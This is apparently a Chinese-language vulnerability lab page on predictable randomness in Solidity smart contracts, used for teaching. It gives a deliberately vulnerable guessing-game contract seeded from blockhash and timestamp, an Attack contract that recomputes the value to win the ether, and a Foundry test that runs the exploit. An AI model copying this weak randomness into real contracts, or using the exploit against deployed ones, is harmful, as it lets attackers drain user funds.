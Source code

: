 # 随机性

[Randomness.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Randomness.sol)   

**名称：** 可预测的随机性漏洞  

**描述：**  
使用全局变量如区块哈希、区块编号、区块时间戳等字段是不安全的，矿工和攻击者可以控制它。    


**场景：**  
GuessTheRandomNumber合约是一款游戏，在这个游戏中，如果你能猜到从区块哈希和时间戳生成的伪随机数，你就可以赢得1个以太币。  

乍一看，似乎无法猜出正确的数字。  
但是让我们看看赢得这个游戏有多容易。  

 1. Alice部署GuessTheRandomNumber并存入1个以太币  
 2. Eve部署Attack合约  
 3. EVe调用Attack.attack()赢得了1个以太币



**发生了什么？**  
Attack合约通过简单地复制计算随机数的代码，计算出了正确的答案。  


**缓解措施：** 
不要使用blockhash和block.timestamp作为随机性的来源。  

**参考：**  
https://solidity-by-example.org/hacks/randomness/

**GuessTheRandomNumber合约：**  
```solidity
contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```
**如何测试：**  
`forge test --contracts src/test/Randomness.sol -vvvv`  

```solidity
// 用于测试对存在可预测随机性漏洞合约的攻击
function testRandomness() public {
    // 将地址值从以太坊虚拟机分配给“alice”和“eve”。
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice获得1个以太币
    vm.deal(address(alice), 1 ether);

    // 通过Alice的地址调用prank函数
    vm.prank(alice);

    // 创建GuessTheRandomNumberContract的实例，其余额为1个以太币
    GuessTheRandomNumberContract = new GuessTheRandomNumber{value: 1 ether}();

    // Eve的攻击开始
    vm.startPrank(eve);

    // 创建Attack合约的实例
    AttackerContract = new Attack();

    // 记录AttackerContract合约的当前余额
    console.log("Before exploiting, Balance of AttackerContract:", address(AttackerContract).balance);

    // Attack合约试图猜测GuessTheRandomNumberContract的随机数。
    AttackerContract.attack(GuessTheRandomNumberContract);

    // 再次记录AttackerContract合约的余额，以确定攻击是否成功。
    console.log("Eve wins 1 Eth, Balance of AttackerContract:", address(AttackerContract).balance);

    // 记录一条消息，表示攻击已完成。
    console.log("Exploit completed");
}


// 尝试猜测GuessTheRandomNumberContract随机数的Attack合约。
contract Attack {
    // 允许此合约接收以太币的函数
    receive() external payable {}

    // 使用与GuessTheRandomNumberContract相同的逻辑计算伪随机数并使用它来猜测数字的attack函数。
    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        // 使用猜测的答案调用GuessTheRandomNumber合约的guess函数。
        guessTheRandomNumber.guess(answer);
    }

    // 辅助函数，用于检查当前合约的余额。
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
**红框：** 猜中答案并赢得比赛  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fda3d6929-9bc8-478e-a027-cff9c2a65c0d%2FUntitled.png?table=block&id=216b1af8-21a5-4e09-a63e-e4523705c968&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)